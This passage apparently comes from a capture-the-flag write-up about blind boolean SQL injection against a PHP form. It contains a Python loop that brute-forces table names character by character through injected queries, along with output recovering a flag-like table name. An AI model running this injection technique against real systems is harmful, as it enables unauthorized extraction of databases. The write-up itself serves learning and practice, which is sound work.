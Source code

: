 ```  
<form action="index.php" method="POST">  
       <input name="id" value="" />  
  
       <input type="submit" value="Submit" />  
</form>  
</center>

Hello guest  
```

same way we can find other table name lengths. I only found 2 tables of which
``5 & 25`` lengths. We can easily guess first table name as ``users`` which is
of `5` char length.

```python  
def dump_tablenames():  
	result=''  
	j=1  
	while j<=25:  
		for i in printable:  
			# length of table 1 is :  2 && length((select table_name from sys.x$schema_table_statistics where table_schema=database() limit 0,1))=5 we can guess its users  
			#second table length is : 2 && length((select table_name from sys.x$schema_table_statistics where table_schema=database() limit 1,1))=25  
			if i!='%':  
				r = requests.post(url,headers={'Content-Type':'application/x-www-form-urlencoded'},data={'id':'2 && ascii(substr((select table_name from sys.x$schema_table_statistics where table_schema=database() limit 1,1),{},25))=ascii("{}")'.format(j,i)})  
				if 'guest' in r.text:  
					result=result+i  
					print '[+] Table Name : {}'.format(result)  
					break  
		j+=1  
```

which dumps the table names

```css  
root@MrR3boot:~# python do.py  
1. Dump Database Name  
2. Find Table Names  
> 2  
[+] Table Name : T  
[+] Table Name : Th  
[+] Table Name : Th1  
[+] Table Name : Th1z  
[+] Table Name : Th1z_  
[+] Table Name : Th1z_F  
[+] Table Name : Th1z_Fa  
[+] Table Name : Th1z_Fac  
[+] Table Name : Th1z_Fack  
[+] Table Name : Th1z_Fack1  
[+] Table Name : Th1z_Fack1n  
[+] Table Name : Th1z_Fack1n_  
[+] Table Name : Th1z_Fack1n_F  
[+] Table Name : Th1z_Fack1n_Fl  
[+] Table Name : Th1z_Fack1n_Fl4  
[+] Table Name : Th1z_Fack1n_Fl44  
[+] Table Name : Th1z_Fack1n_Fl444  
[+] Table Name : Th1z_Fack1n_Fl4444  
[+] Table Name : Th1z_Fack1n_Fl4444g  
[+] Table Name : Th1z_Fack1n_Fl4444g_  
[+] Table Name : Th1z_Fack1n_Fl4444g_T  
[+] Table Name : Th1z_Fack1n_Fl4444g_Ta  
[+] Table Name : Th1z_Fack1n_Fl4444g_Tab  
```